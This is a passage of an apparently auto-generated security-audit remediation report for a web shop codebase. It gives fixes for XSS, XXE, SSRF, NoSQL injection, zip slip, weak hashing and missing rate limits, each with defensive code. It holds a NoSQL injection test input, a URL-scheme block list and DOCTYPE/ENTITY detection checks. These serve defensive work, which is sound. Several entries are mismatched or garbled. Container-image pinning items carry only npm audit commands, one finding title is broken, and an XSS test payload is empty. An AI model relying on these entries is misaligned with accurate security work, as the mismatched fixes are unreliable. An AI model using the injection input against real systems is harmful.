logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-049"></a>
#### M-049 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage (`login.component.ts:101`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/login/login.component.ts:101`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/login/login.component.ts:101`) and decide whether to keep, downgrade, or remove this finding.

1. Add a `POST /api/auth/session` BFF endpoint to the Express backend that accepts the JWT, validates it, and responds with `Set-Cookie: session=<opaque>; HttpOnly; Secure; SameSite=Strict`. The SPA never stores the JWT.
2. Remove `localStorage.setItem('token', ...)` from all four component call sites.
3. Update `request.interceptor.ts` to rely on the browser's automatic cookie sending instead of manually injecting `Authorization: Bearer`.
4. Set a session timeout on the BFF cookie (e.g. 8 hours) and implement a silent refresh endpoint to extend it.
5. Deploy `Content-Security-Policy: default-src 'self'; script-src 'self'` to limit XSS exfiltration even if a bypass exists.

```typescript
// Move the JWT out of localStorage into an httpOnly cookie.
res.cookie('session', token, {
  httpOnly: true, secure: true, sameSite: 'lax', maxAge: 3600_000
})
```

**Verification:** Open browser DevTools, run `localStorage.getItem('token')` and confirm `null`.

**Reference:** CWE-922

---

<a id="m-050"></a>
#### M-050 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-005](#f-005) — GitHub Actions Workflow Missing Permissions Block (`ci.yml:1`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/ci.yml:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (.`github/workflows/ci.yml:1`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-051"></a>
#### M-051 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🟠 [F-006](#f-006) — Sensitive REST Route Without Auth Middleware (`server.ts:310`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:310`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:310`) and decide whether to keep, downgrade, or remove this finding.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-052"></a>
#### M-052 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🔴 [F-011](#f-011) — XML External Entity Injection (`routes/fileUpload.ts:83`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:83`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:83`) and decide whether to keep, downgrade, or remove this finding.

1. Change `noent: true` to `noent: false` in the libxmljs2.`parseXml` options on `fileUpload.ts:83` to prevent external entity expansion.
2. Additionally set `nonet: true` to block network-based entity URIs.
3. Strip parsed XML content from error messages before passing to `next()`; return a generic 'invalid XML' error string instead.
4. If XML upload is deprecated (as the 410 status suggests), disable the XML parsing branch entirely and reject .xml files at `checkFileType`.

```javascript
// Replace line 83:
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true, nonet: true })',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-611

---

<a id="m-053"></a>
#### M-053 — Validate and allowlist outbound request targets

**Addresses:**

- 🔴 [F-012](#f-012) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/profileImageUrlUpload.ts:24`) and decide whether to keep, downgrade, or remove this finding.

1. Parse the supplied URL before fetch: reject any scheme other than `https:` (block `file:`, `gopher:`, `dict:` etc.).
2. Resolve the hostname to its IP and reject RFC-1918 ranges (10.x, 172.16-31.x, 192.168.x), loopback (127.x, ::1), and link-local (169.254.x) addresses using a library such as `ssrf-req-filter` or `is-ip-private`.
3. Disable automatic redirect following (`redirect: 'error'` in fetch options) to prevent SSRF via open redirects.
4. Consider restricting profile images to direct file upload only (removing URL-based upload), eliminating the SSRF surface entirely.
5. Never write remote content to publicly-served static paths; use a temporary staging directory with content-type validation before moving.

```javascript
import { isPrivateIp } from 'is-ip-private'
import dns from 'node:dns/promises'

const parsed = new URL(url)  // throws on invalid
if (parsed.protocol !== 'https:') throw new Error('Only https URLs allowed')
const addrs = await dns.resolve4(parsed.hostname)
if (addrs.some(a => isPrivateIp(a))) throw new Error('Private/internal URLs blocked')
const response = await fetch(url, { redirect: 'error' })
```

**Reference:** CWE-918

---

<a id="m-054"></a>
#### M-054 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-013](#f-013) — Sandbox Escape (`routes/b2bOrder.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/b2bOrder.ts:23`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the vm.`runInContext` + `notevil` eval entirely from `routes/b2bOrder.ts`. Define a JSON Schema (or zod/joi schema) for `orderLinesData` that enumerates the allowed fields and types, and parse/validate against it instead of evaluating it as JavaScript.
2. If server-side expression evaluation is genuinely required for business logic, migrate to a purpose-built sandboxed evaluator that explicitly blocks prototype chain access (e.g., expr-eval, or a Rust/WASM sandbox), and add allowlist validation of input structure before evaluation.
3. Add a role check on `/b2b/v2/orders` beyond basic JWT validity - require a 'b2b' or 'partner' role claim in the JWT payload and verify it with `expressJwt`'s `isRevoked` or a custom middleware guard.
4. Enforce Content-Type: application/json and add express-validator or zod schema validation on body.`orderLinesData` before the handler executes.

```typescript
// Replace eval with structured parsing:
import { z } from 'zod'

const OrderLineSchema = z.object({
  productId: z.number().int().positive(),
  quantity: z.number().int().min(1).max(1000),
  unitPrice: z.number().positive()
})
const OrderBodySchema = z.object({
  cid: z.string().max(64),
  orderLinesData: z.array(OrderLineSchema).max(100)
})

// In handler:
const parsed = OrderBodySchema.safeParse(req.body)
if (!parsed.success) return res.status(400).json({ error: parsed.error })
```

**Reference:** CWE-94

---

<a id="m-055"></a>
#### M-055 — Constrain file paths to a safe base directory

**Addresses:**

- 🔴 [F-014](#f-014) — Zip Slip Path Traversal (`routes/fileUpload.ts:44`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:44`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:44`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `absolutePath.includes(path.resolve('.'))` with `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)` to enforce a strict directory prefix.
2. Reject entries where the resolved path does not start with the target directory - call `entry.autodrain()` and continue.
3. Sanitize entry filenames to remove any `..` path components before resolving using a strip regex.
4. Consider using a well-maintained library such as `adm-zip` with built-in path traversal protection or validate with `path.relative()` that the result does not start with `..`.

```javascript
const safeBase = path.resolve('uploads/complaints') + path.sep
const absolutePath = path.resolve('uploads/complaints/' + fileName)
if (!absolutePath.startsWith(safeBase)) {
  entry.autodrain()
  return
}
entry.pipe(fs.createWriteStream(absolutePath))
```

**Reference:** CWE-22

---

<a id="m-056"></a>
#### M-056 — Harden the authentication flow

**Addresses:**

- 🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password (`oauth.component.ts:30`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/oauth/oauth.component.ts:30`) and decide whether to keep, downgrade, or remove this finding.

1. Switch to the OAuth 2.0 Authorization Code flow with PKCE (`code_challenge_method=S256`). The SPA generates a random `code_verifier`, hashes it as `code_challenge`, and sends the code (not the token) to the redirect URI.
2. Exchange the authorization code for tokens server-side (BFF endpoint) so the access token never appears in the URL fragment.
3. Generate a cryptographically random `state` parameter before the OAuth redirect and verify it on return - prevents CSRF on the OAuth callback.
4. Remove the derived-password logic at `oauth.component.ts:30`. Instead, link the OAuth sub (subject identifier) to the Juice Shop account without creating a password-based parallel credential.
5. Register the redirect URI as an exact-match allowlist in the OAuth provider configuration.

**Reference:** CWE-287

---

<a id="m-057"></a>
#### M-057 — Verify token signatures before trusting claims

**Addresses:**

- 🔴 [F-016](#f-016) — JWT decode used without signature verification (`lib/insecurity.ts:58`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:58`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:58`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-058"></a>
#### M-058 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-017](#f-017) — Stored Cross-Site Scripting (`about.component.ts:119`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/about/about.component.ts:119`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/about/about.component.ts:119`) and decide whether to keep, downgrade, or remove this finding.

1. Remove `bypassSecurityTrustHtml()` at `about.component.ts:119`. Render the comment field via Angular interpolation which HTML-entity-encodes by default.
2. Server-side: apply `sanitize-html` (or equivalent) to the `comment` field in `routes/feedback.ts` before it is persisted, allowing only a safe allowlist of tags (e.g. `<b>`, `<i>`, `<em>`).
3. For the star-rating icons (`this.stars[]`), inject them as SVG or Angular component children rather than as raw HTML strings.
4. Deploy a `Content-Security-Policy` header (`script-src 'self'`) via the Express `helmet` middleware.

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Insert `` via the affected field and confirm the browser renders the escaped text, not an alert dialog.

**Reference:** CWE-79

---

<a id="m-059"></a>
#### M-059 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-018](#f-018) — Stored XSS (`last-login-ip.component.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/last-login-ip/last-login-ip.component.ts:39`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `bypassSecurityTrustHtml(...)` at `last-login-ip.component.ts:39` with direct string assignment: `this.lastLoginIp = payload.data.lastLoginIp` and render via Angular interpolation `{{ lastLoginIp }}`.
2. The `<small>` tag should be part of the template HTML, not injected as trusted content.
3. Server-side: validate the IP address value in the JWT-issuing code to be a valid IPv4 or IPv6 address pattern before embedding it in the token.

```javascript
// Before
this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)

// After (in template: <small>{{ lastLoginIp }}</small>)
this.lastLoginIp = payload.data.lastLoginIp
```

**Reference:** CWE-79

---

<a id="m-060"></a>
#### M-060 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-019](#f-019) — Stored Cross-Site Scripting (`search-result.component.ts:132`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/search-result/search-result.component.ts:132`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/search-result/search-result.component.ts:132`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `bypassSecurityTrustHtml(tableData[i].description)` at line 132 with `DomSanitizer.sanitize(SecurityContext.HTML, tableData[i].description)` to allow the sanitizer to strip unsafe tags while preserving legitimate formatting.
2. Alternatively, store product descriptions as plain text and escape on render - if no HTML formatting is needed, assign `product.description` directly and use Angular interpolation.
3. Server-side: sanitize product descriptions in `routes/products.ts` before persistence.

```javascript
// Before
tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)

// After
import { SecurityContext } from '@angular/core'
tableData[i].description = this.sanitizer.sanitize(SecurityContext.HTML, tableData[i].description) ?? ''
```

**Reference:** CWE-79

---

<a id="m-061"></a>
#### M-061 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-020](#f-020) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/search-result/search-result.component.ts:170`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the `bypassSecurityTrustHtml()` call at `search-result.component.ts:170` and assign `queryParam` directly to `searchValue` as a plain string.
2. Update the template to render `searchValue` via Angular interpolation (`{{ searchValue }}`) instead of `[innerHTML]` binding - Angular's default interpolation context-escapes HTML entities.
3. If HTML rendering of the search term is a deliberate product feature, use `DomSanitizer.sanitize(SecurityContext.HTML, queryParam)` instead of `bypassSecurityTrustHtml`.
4. Add a `Content-Security-Policy` response header that bans inline scripts (`script-src 'self'`) to limit exploitation of any remaining XSS surface.

```javascript
// Before (vulnerable)
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)

// After (safe)
this.searchValue = queryParam  // render with {{ searchValue }} in template
```

**Reference:** CWE-79

---

<a id="m-062"></a>
#### M-062 — Use parameterized database queries

**Addresses:**

- 🔴 [F-021](#f-021) — NoSQL Mass-Update Injection (`routes/trackOrder.ts:18`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/trackOrder.ts:18`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/trackOrder.ts:18`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `db.ordersCollection.find({ $where: ... })` with `db.ordersCollection.find({ orderId: id })` - equality filter does not evaluate JavaScript and cannot be injected.
2. In challenge mode, keep the `trunc(60)` truncation, but switch to the safe equality filter; the `reflectedXss` challenge can be verified separately without enabling `$where`.
3. Add a test that submits `; return true;` as the order ID and asserts a 400 or empty result.

```javascript
// Before (vulnerable):
db.ordersCollection.find({ $where: `this.orderId === '${id}'` })

// After (safe):
db.ordersCollection.find({ orderId: id })
```

**Reference:** CWE-943

---

<a id="m-063"></a>
#### M-063 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-022](#f-022) — DOM-Write of Raw User Data Export (`data-export.component.ts:71`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/data-export/data-export.component.ts:71`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/data-export/data-export.component.ts:71`) and decide whether to keep, downgrade, or remove this finding.

1. Replace the `window.open().document.write()` pattern with a `Blob` URL download: `const blob = new Blob([JSON.stringify(this.userData)], {type:'application/json'}); const url = URL.createObjectURL(blob); window.open(url)`.
2. If HTML rendering of the export is required, render it inside the Angular component using sanitized template binding rather than a new window with `document.write`.
3. Ensure the backend pre-sanitizes all string fields in the user data export before returning them.

```javascript
// Before (unsafe)
window.open('', '_blank', 'width=500')?.document.write(this.userData)

// After (safe download)
const blob = new Blob([JSON.stringify(this.userData)], { type: 'application/json' })
const url = URL.createObjectURL(blob)
window.open(url, '_blank')
```

**Reference:** CWE-79

---

<a id="m-064"></a>
#### M-064 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-023](#f-023) — Uses --unsafe-perm npm install flag — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (Dockerfile:5) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-065"></a>
#### M-065 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-024](#f-024) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/ci.yml:161`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (.`github/workflows/ci.yml:161`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-066"></a>
#### M-066 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-025](#f-025) — Docker base image not digest-pinned — Dockerfile:1

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (Dockerfile:1) and decide whether to keep, downgrade, or remove this finding.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-067"></a>
#### M-067 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-026](#f-026) — Docker base image not digest-pinned — Dockerfile:23

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (Dockerfile:23) and decide whether to keep, downgrade, or remove this finding.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-068"></a>
#### M-068 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-027](#f-027) — On absent from repository (`package-lock.json:1`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `package-lock.json:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`package-lock.json:1`) and decide whether to keep, downgrade, or remove this finding.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-069"></a>
#### M-069 — Manual review: verify Sensitive Files Publicly Browsable via serve-index

**Addresses:**

- 🟠 [F-028](#f-028) — Sensitive Files Publicly Browsable (`server.ts:277`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:277`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:277`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the `app.use('/encryptionkeys', ...)` and `app.use('/ftp', ...)` mounts entirely from `server.ts` if the public browsability is not required for legitimate functionality.
2. If the FTP-like listing must exist for any reason, wrap it behind `isAuthorized()` middleware: `app.use('/ftp', isAuthorized(), serveIndexMiddleware, serveIndex('ftp', { icons: true }))`.
3. Move `encryptionkeys/` outside the application working directory so that even if a mount is accidentally re-added, the key material is not in the process's file tree.
4. Add `encryptionkeys/` and `ftp/` to `.gitignore` and rotate `premium.key` immediately.

**Reference:** CWE-548

---

<a id="m-070"></a>
#### M-070 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-029](#f-029) — Weak Password Hashing (`models/user.ts:77`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/user.ts:77`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`models/user.ts:77`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hashSync(data, 12)` (cost factor 12 minimum per OWASP guidelines). Import bcrypt: `import bcrypt from 'bcryptjs'`.
2. Update `lib/insecurity.ts:43` `hash()` to accept an async overload; update the model `set()` hook in `models/user.ts:77` to call `await bcrypt.hash(clearTextPassword, 12)`.
3. Update the login query at `routes/login.ts:34` to a parameterized ORM call followed by `bcrypt.compare(password, user.password)` instead of hashing the candidate for comparison.
4. Run a one-time migration that prompts users to reset passwords on next login (existing `MD5` hashes cannot be re-hashed without the plaintext).

```javascript
import bcrypt from 'bcryptjs'
// lib/insecurity.ts replacement:
export const hash = async (data: string): Promise<string> => bcrypt.hash(data, 12)
export const verifyHash = async (data: string, stored: string): Promise<boolean> => bcrypt.compare(data, stored)
```

**Reference:** CWE-916

---

<a id="m-071"></a>
#### M-071 — Return generic error messages to clients

**Addresses:**

- 🟠 [F-030](#f-030) — Access Log Public Exposure (`server.ts:281`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:281`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:281`) and decide whether to keep, downgrade, or remove this finding.

1. Add `security.isAuthorized()` and an admin-role check middleware before both the `serveIndex` and `serveLogFiles` mounts at `/support/logs`.
2. Ensure Morgan does not log the Authorization header value; configure morgan format to exclude sensitive headers.
3. Consider moving log serving behind a separate internal-only admin interface rather than exposing it on the public HTTP port.

**Reference:** CWE-209

---

<a id="m-072"></a>
#### M-072 — Offload CPU-bound work and bound execution time

**Addresses:**

- 🟠 [F-031](#f-031) — Event-Loop Saturation (`routes/b2bOrder.ts:23`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/b2bOrder.ts:23`) and decide whether to keep, downgrade, or remove this finding.

1. Apply express-rate-limit to the `/b2b/v2` prefix in `server.ts`, e.g. `rateLimit({ windowMs: 60 * 1000, max: 10 })` - placing it before the `isAuthorized()` call to reject excess requests before JWT processing.
2. Move the vm.`runInContext` / `notevil` eval to a `Node.js` worker_threads Worker so it does not block the event loop. The worker can be terminated after the timeout without stalling the main thread.
3. Set a maximum size limit on body.`orderLinesData` (e.g., 10 KB) using express body-parser's limit option to prevent parser-amplification inputs.
4. Instrument the eval execution time with a histogram metric (e.g., prometheus-client) and alert when p99 latency exceeds 500ms.

```typescript
// server.ts — add before isAuthorized:
app.use('/b2b/v2', rateLimit({ windowMs: 60_000, max: 10, standardHeaders: true, legacyHeaders: false }))
app.use('/b2b/v2', security.isAuthorized())
```

**Reference:** CWE-400

---

<a id="m-073"></a>
#### M-073 — Manual review: verify Event-Loop Blocking via MarsDB \$where JavaScript Injection

**Addresses:**

- 🟠 [F-032](#f-032) — Event-Loop Blocking (`routes/trackOrder.ts:18`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/trackOrder.ts:18`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/trackOrder.ts:18`) and decide whether to keep, downgrade, or remove this finding.

1. In all code paths (challenge and non-challenge), replace `$where` with `{ orderId: id }` equality filter. The `reflectedXSS` challenge can use a separate mechanism to detect the payload without executing it as JavaScript.
2. Add a server-side timeout wrapper around MarsDB find operations using `Promise.race()` with a 5-second timeout to prevent indefinite blocking.
3. Add a regression test that confirms a `$where`-style payload returns 400 and does not block subsequent requests.

```javascript
// Safe with timeout:
const orderQuery = db.ordersCollection.find({ orderId: id })
const timeout = new Promise((_, reject) => setTimeout(() => reject(new Error('Query timeout')), 5000))
const order = await Promise.race([orderQuery, timeout])
```

**Reference:** CWE-400

---

<a id="m-074"></a>
#### M-074 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-033](#f-033) — Missing Rate Limiting on Login Endpoint (`server.ts:343`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:343`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:343`) and decide whether to keep, downgrade, or remove this finding.

1. Add `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10, standardHeaders: true }))` before the login route registration in `server.ts`.
2. Fix the X-Forwarded-For `keyGenerator`: validate that `req.ip` is from a trusted proxy before using the header, or remove the custom `keyGenerator` to fall back to `req.ip` from Express's trust proxy setting.
3. Add progressive delays or CAPTCHA after 5 failed attempts for the same email address.
4. Consider adding account lockout (e.g., track failed attempts in Redis) for repeated failures against the same account.

```javascript
// server.ts — add before route registration
app.use('/rest/user/login', rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 10,
  standardHeaders: true,
  legacyHeaders: false
}))
```

**Reference:** CWE-307

---

<a id="m-075"></a>
#### M-075 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-034](#f-034) — YAML Bomb Parser Amplification (`routes/fileUpload.ts:117`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:117`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:117`) and decide whether to keep, downgrade, or remove this finding.

1. In `checkUploadSize`, add `return res.status(413).json({ error: 'File too large' })` when `file.size > 100000` instead of calling `next()` unconditionally.
2. Replace `yaml.load(data)` with `yaml.load(data, { schema: yaml.FAILSAFE_SCHEMA })` or use a size-limited YAML parser to prevent alias amplification.
3. Set a hard body-size limit in the multer configuration (`limits: { fileSize: 102400 }`) so the rejection occurs before buffering.
4. Consider rejecting YAML uploads entirely given the endpoint is marked as deprecated (HTTP 410).

```javascript
// checkUploadSize — enforce rejection:
function checkUploadSize({ file }: Request, res: Response, next: NextFunction) {
  if (file != null && file.size > 100000) {
    return res.status(413).json({ error: 'File too large' })
  }
  next()
}
```

**Reference:** CWE-400

---

<a id="m-076"></a>
#### M-076 — Bound parser resource consumption

**Addresses:**

- 🟠 [F-035](#f-035) — XML Billion-Laughs Entity Expansion DoS (`routes/fileUpload.ts:83`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/fileUpload.ts:83`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/fileUpload.ts:83`) and decide whether to keep, downgrade, or remove this finding.

1. Set `noent: false` in `parseXml` options (line 83) to prevent entity expansion entirely.
2. Strip or reject any XML input containing a DOCTYPE declaration before parsing: `if (data.includes('<!DOCTYPE')) return res.status(400).json({ error: 'DOCTYPE not allowed' })`.
3. Enforce hard upload size rejection (see file-upload-service-004) so large XML payloads never reach the parser.
4. Consider rejecting XML uploads entirely since the endpoint returns HTTP 410 (deprecated).

```javascript
// Before calling parseXml:
if (data.includes('<!DOCTYPE') || data.includes('<!ENTITY')) {
  res.status(400)
  return next(new Error('DOCTYPE/entity declarations are not permitted'))
}
```

**Reference:** CWE-776

---

<a id="m-077"></a>
#### M-077 — Manual review: verify Client-Side-Only Admin and Accounting Route Guards

**Addresses:**

- 🟠 [F-036](#f-036) — Client-Side-Only Admin and Accounting Route Guards (`app.guard.ts:52`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:52`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/app.guard.ts:52`) and decide whether to keep, downgrade, or remove this finding.

1. Accept that Angular route guards (`canActivate`) are not a security control - they are UI navigation aids only. Document this explicitly.
2. Ensure every `/api/` and `/rest/` admin endpoint on the Express backend validates the JWT signature and role claim server-side before processing the request.
3. Consider removing the JWT signature from the SPA bundle entirely and fetching the current user's role via an authenticated API call (`GET /rest/whoami`) rather than client-side JWT decoding.
4. If client-side role display is needed, use the server response not a self-signed claim.

**Reference:** CWE-602

---

<a id="m-078"></a>
#### M-078 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-037](#f-037) — Unauthenticated Order Tracking IDOR (`track-result.component.ts:45`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/track-result/track-result.component.ts:45`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/track-result/track-result.component.ts:45`) and decide whether to keep, downgrade, or remove this finding.

1. Add `canActivate: [LoginGuard]` to both `/track-result` route entries in `app.routing.ts` (lines 178 and 181).
2. Server-side in `routes/orderHistory.ts` (or equivalent): verify that the order's `UserId` matches `req.user.data.id` from the JWT before returning order data.
3. Remove `bypassSecurityTrustHtml` from `track-result.component.ts:48` - render the `orderId` as plain text via Angular interpolation or `SecurityContext.HTML` sanitization.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

**Reference:** CWE-639

---

<a id="m-079"></a>
